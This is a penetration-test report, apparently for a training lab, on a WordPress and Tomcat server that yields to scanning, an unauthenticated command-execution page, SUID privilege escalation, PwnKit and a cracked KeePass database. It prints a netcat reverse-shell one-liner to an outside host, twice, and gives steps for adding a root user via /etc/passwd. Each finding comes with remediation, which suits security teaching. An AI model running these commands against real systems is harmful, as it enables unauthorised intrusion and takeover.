# ESCP Part 1: Web Application Assessment

**Date:** July 5th 2022

**Author:** Jason Frank

<br>

# Section 1 - Executive Summary of the Engagement

This section aims to provide a summary and high level details of the steps taken, and methods used, throughout this security assessment.

Overall security posture was found to be lacking in the following categories:

- Website configuration
- Server configuration
- Password policy

Methodology included:

- A network scan with nmap
- Webserver scans with gobuster
- manual enumeration of the website, ftp site, and webserver
- Automated password cracking with John the Ripper

<br>

# Section 2 - Key Findings of the Engagement

This section will list key findings in each of the security posture issues listed in section 1 as well as incidators of previous compromise.

**Website configuration:**

- The admin.php website allows sensitive information to be disclosed to remote users on the internet. It also allows remote users to execute commands directly on the webserver. No password is required to access this page and it doesn't appear to be restricted in what commands can be run.
- Navigating to the /wp-includes/ directory with a web browser allows remote users to view files on the server that is part of the WordPress installation. Attackers can glean what is being used, the versions, and more allowing them to make more directed and informed attacks against the website.

**Server configuration:**

- The FTP site on port 21 allows anonymous access.
- Several files that don't require the SUID bit to be set have it set. This includes nmap, nano, and dash. Attackers can utilize these to change or delete information on the system as well as escalate privileges to the root user.
- Additional file permission issues allow for users to view files in other users home directories that they should not be allowed to.
- CVE-2021-4034, aka PwnKit, is not patched. This is a serious vulnerability allowing users on the system to escalate their privileges to root very easily.


**Password Policy:**

- The standard Linux password policy is still in place which means passwords are not required to be complex or long. A user would be allowed to set a 6 character password that could be cracked in a matter of seconds by an attacker.
- It was observed that the lowpriv user had the same password as their username which should never be allowed.
- A KeePassX password manager database was found on the server and it was protected by the very weak password of password1. Cracking this password and opening up the database showed that the root user had their credentials stored within.

**Previous Compromise:**

- A flag.txt file was found in the /home/admin1/ directory.
- A KeyToTheMagicKingdom file was found in the /home/waltdisney/.ssh/ directory.

<br>

# Section 3 - Technical Overview with Vulnerability Assessment Narrative

## Initial Enumeration Phase

### Nmap Scan

Command:  `sudo nmap -sV -sC -T4 10.50.144.19`



An additional all ports scan did not reveal any other open ports.

<br>

### Port 21 - FTP

Anonymous access is allowed to the FTP server but there are no files currently stored there. We have read and execute permissions but cannot upload anything due to the lack of write permissions



<br>

### Port 80 - Gobuster Scan

I run a gobuster scan against the website to reveal additional information and find the following:

Command:  `gobuster dir -u http://10.50.144.19 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null`



<br>

### Port 8080 - Gobuster Scan

I run another gobuster scan against the website this time on port 8080 to reveal additional information and find the following:

Command:  `gobuster dir -u http://10.50.144.19:8080 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null`



<br>

## Port 8080 Website Enumeration Phase

Visiting the main page shows us a default unconfigured Apache Tomcat webserver:



**/docs** shows us that the webserver is running Apache Tomcat v7.0.68 dated June 27th 2016

**/index.html** takes us to the same unconfigured default page.

**/examples** has 4 links we can click but no useful information in any of them.

**/manager** provides us with a login page:



<br>

## Port 80 Website Enumeration Phase

Visiting the main page shows us a default unconfigured Apache2 webserver:



Looking at the page source code does not reveal any useful information other than an **/icons** directory that some links inside point to.

**robots.txt** does not exist so no information gained there.

**/wp-content** gives us a blank page.

**/wp-content** is a blank page with nothing displayed.

**/index.php** and **/index.html** take us to the default page we initially landed on.

**/license.txt** only shows us that it's likely an old version of WordPress since it has a date of 2014 listed.

**/manual** shows Apache v2.4 documentation.

**/wp-login.php** provides us with a login screen:



**/wp-includes** let's us navigate a very long list of files:



**/readme.html** shows us that the site is using WordPress version 4.0:



**/wp-trackback.php** doesn't show us anything useful.

**/xmlrpc.php** displays a message stating that: "XML-RPC server accepts POST requests only."

**/server-status** we are not authorized to view.

**/admin.php** looks like we can use it to obtain access to the underlying webserver. It allows us to:

- Directory Traversal: Provides us with a GUI interface that lets us navigate the webservers file sytem. It doesn't allow us to do this as a privileged user however which can be seen when you try and access **/root** which gives us an error message:

```
opendir() failed
```

We can however gain sensitive information from the system with this. Looking in the **/var/www/html** directory we see an exposed WordPress configuration file named **wp-config.php** and opening this reveals the root password for the MySQL database:



- Execute MySQL Query: This does not actually work. We gained a username and password for the database above but when trying to use it to query the database, no matter what you enter, it comes back and says the page isn't working:



- Execute Shell Command (safe mode is off): This allows us to run commands on the webserver itself. We will be able to use this to gain a shell on the webserver which will be shown below in the **System Access** section.

<br>

## System Access Phase

Using the shell command function I run `which nc` to see if the netcat tool is available on the system, and it is:



I then use netcat to open up a reverse shell back to my home system:

Command:  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.50.142.47 4444 >/tmp/f`



The connection was successful and we can see the username and hostname I was able to obtain a shell on:



The shell we get back doesn't have proper input/output control and echos everything we type back to us so I fix that with the following:



<br>

## System Enumeration Phase

The first thing I attempt is to check sudo permissions for the www-data use by typing `sudo -l` but we do not have any.

Next I look for a list of users on the system:

Command:  `cat /etc/passwd | grep bash`



We can see a total of 4 users other than the root account that are able to login to the system:

- ubuntu
- admin1
- lowpriv
- waltdisney

Running a find to look for all files on the system that have a SUID bit set shows us that the /bin/nano command has it when that isn't standard practice:

Command:  `find / -type f /perm 4000 2>/dev/null`



Since this text editor has the SUID bit set we can edit files we normally shouldn't be able to such as /etc/passwd. I am going to do this and add a new user to the system with root privileges that we will then be able to login to.

<br>

## Privilege Escalation Phase - Root Access

First I create a pasword hash using the openssl tool and just use the password of password.

Command:  `openssl passwd -1 -salt salt password`

I then use nano to edit the /etc/passwd file and add user jason with root user permissions.

And finally I use the `su jason` command to switch over and login as the new user.



We have root access and full compromise of the system at this point.


### List of 5 Vulnerabilities and how to Remediate them

- **Vulnerability 1: CVE-2021-4034 also known as PwnKit**

**Description:**

This is a serious vulnerability that allows standard users to escalate privilages to the root user very easily. The vulnerability exploits the Polkit (PolicyKit) component which is installed on every major Linux distribution by default making this a far reaching and widespread problem. It was discovered by researchers at Qualys and disclosed in November of 2021.

Specifically the vulnerability is in the pkexec command which has SUID set on it by default. Poor coding in the handling of supplied arguments to this command allows attackers to have arbitrary command execution with root level privileges allowing easy privilege escalation to the root user and full system compromise.

**Discovery and Exploitation:**

This vulnerability was found by running the PwnKit vulnerability against the webserver to see if privilege escalation would occur. I first checked to see if it had it's SUID bit removed and it had not:



I then downloaded the exploit on my home system, started up a simple python HTTP server, and used wget from the webserver to transfer the exploit over. After the file was moved to the webserver I made it executable and ran the exploit, which escalated me to the root user:



**Remediation:**

Run the following commands to patch your system to the latest version:

- sudo apt update
- sudo apt upgrade
- sudo reboot

After rebooting you will no longer be vulnerable to PwnKit.

If upgrading your system is not an option due to software or hardware compatibility a quick fix for this is to simply remove the SUID bit on the pkexec file with the following command:

- sudo chmod 755 /usr/bin/pkexec

<br>

- **Vulnerability 2: SUID bit set on the nano command**

**Description:**

Nano is a standard text editor installed on most major Linux distributions. It is not malicious in any way but improper configuration can lead to privilege escalation.

**Discovery and Exploitation:**

While searching the system for all files with the SUID bit set it was noticed that nano command was set with the SUID bit:


Because the nano program had elevated privileges it allowed me to add a new user to the /etc/passwd file that had root level privileges allowing me to escalate privileges:


**Remediation:**

This command should not be set to SUID. Remove the SUID bit to mitigate this vulnerability.

Run the following command to remove the SUID bit:

- chmod 755 /bin/nano

<br>

- **Vulnerability 3: SUID bit set on the dash command**

**Description:**

Dash is the standard command interpreter for the Linux system. It's an acronym for Debian Almquist Shell and is a POSIX-compliant implementation of /bin/sh that aims to be as small as possible.

**Discovery and Exploitation:**

While searching the system for all files with the SUID bit set it was noticed that dash command was set with the SUID bit.

Because of this a standard user can escalate prileges to the root user with a single command as demonstrated here:



Using the -p flag with the dash command does not change the calling uid to the user running the command effectively allowing this to run with root level privileges due to the SUID bit.

**Remediation:**

This command should not be set to SUID. Remove the SUID bit to mitigate this vulnerability.

Run the following command to remove the SUID bit:

- chmod 755 /bin/dash

<br>

- **Vulnerability 4: Ability to execute commands on the webserver from the website GUI**

**Description:**

The /admin.php portion of the website is not password protected and allows users to run arbitrary commands directly on the webserver

**Discovery and Exploitation:**

Scanning the webserver with gobuster revealed the existance of the admin.php file. Navigating to it displays the following screen:



The last line titled Execute Shell Command allows remote users to execute commands directly on the webserver. This can be used to not only gather sensitive information but it can be used to directly connect to the webserver via a command line shell with the following command and a netcat listener setup on the attackers home system:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.50.142.47 4444 >/tmp/f`


**Remediation:**

The admin.php should be removed if it is not necessary. If it is required this page should be password protected and only accessible to authorized system administrators.

<br>

- **Vulnerability 5: Insecure KeePassX Database**

**Description:**

KeePassX is a popular password manager tool similar to LastPass or 1Password.

**Discovery and Exploitation:**

While looking at files in the admin1 home directory (/home/admin1) a KeePassX database was discovered under the name new_database_2.kbdx. This database was password protected, but it had a very weak password that was easily cracked using the keepass2john and John the Ripper tools:



After cracking the password I was able to login to the database and found that the root accounts password was stored inside:



I tested to see if this password would allow me to access the system remotely as root via ssh and I was able to. This allowed full system compromise:



**Remediation:**

Limit access to sensitive password manager database files. This file was set to full read/write/execute permissions for any user. Permissions should be changed with the following command so that only the admin1 user has access to the file:

- chmod 700 /home/admin1/new_database_2.kdbx

Also, the /home/admin1 home directory was set to world readable permissions. If this directory was set to allow only the admin1 user to view files inside it this would have been more difficult to discover. Directory permissions can be changed with the following command:

- chmod 750 /home/admin1

This will allow only the admin1 user full rights to the file while also removing the ability to view the file at all unless you're in the admin1 group or the admin1 user.

And finally enforce a complex password policy. The password protecting this database was very weak and easily crackable or even guessable.

<br>

# Section 4 - Find Evidence of Compromise on the System

- 1 - Find flag.txt and provide screenshot of hash value:

This flag was located in the **/home/admin1** directory.



- 2 - Provide screenshot of the "key to the kingdom" file and it's location:

These 2 files were located in the **/home/waltdisney/.ssh** directory:



<br>

# Section 5 - Find Misconfigured Services Running on the Host

I was able to guess the password for the user **lowpriv** because the username and the password were the same. Using this I was able to login to the FTP service and successfully upload a file to the webserver:



The website is also misconfigured in multiple ways.

- 1: /admin.php allows users to execute commands directly on the webserver allowing us remotely access the system via command shell:


- 2: /admin.php also gives users a GUI interface to browse the underlying file system as shown here where we could view all users on the webserver:



This screenshot satisifies the requirement to upload a screenshot of the list of users accounts on the webserver as well.

<br>

# Section 6 - Can you Access the Password Manager Database Using Previously Discovered Credentials?

First I installed keepassx on my system with:

Command:  `sudo apt-get install keepassx`

Then I downloaded the **new_database_2.kdbx** file from the webserver using a simple python http server to host it and wget to download it:



When attempting to access the database file it asks for a master key:



I use the **keepass2john** tool to create a crackable password hash for the database:

Command:  `keepass2john new_database_2.kdbx > hash.txt`

And then run **John the Ripper** against it to crack the password for the database:

Command:  `john --format=KeePass --wordlist=rockyou.txt hash.txt`


You can see that it easily cracked the password and it was just:  **password1**

I then start up keepassx and login with the cracked password:



And then we're able to open the only entry in the database and find the password for the root user:


I'm also able to ssh over to the webserver and login as root with this password:


<br>

# Extra Credit - Section 7 - Can you Escalate your Privileges to Root?

Yes. The **/bin/nano** binary has a SUID bit set on it allowing any user to edit any file as if they were the root user. I was able to add a new user to the **/etc/passwd** file with full root privileges doing this.

The first screenshot shows how I found this vulnerability:


The second screenshot shows how I created a password hash, edited the /etc/passwd file, and added a new user named jason to the file with full root privileges. I then display the file showing the new user that was created and finally login with the new account. You can see that it logged me in as root on the webserver host:


I also found a second method using the **/bin/dash** command:


